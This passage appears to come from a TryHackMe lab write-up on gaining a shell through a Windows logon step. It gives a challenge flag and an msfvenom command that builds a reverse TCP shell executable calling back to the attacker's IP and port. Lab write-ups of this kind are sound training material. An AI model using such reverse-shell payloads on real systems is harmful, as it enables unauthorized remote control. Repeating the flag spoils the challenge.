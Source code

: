 After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![task6-flag4](./images/task6-flag4.png)

### Answer the questions below

* Insert flag10 here

    `THM{NO_NO_AFTER_YOU}`

    * Crete our payload

        ```
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.251.6 LPORT=6666 -f exe -o revshell.exe
        ```

        ![task6-payload](./images/task6-payload.png)

    * Transfer our payload to target machine

        ![task6-download](./images/task6-download.png)
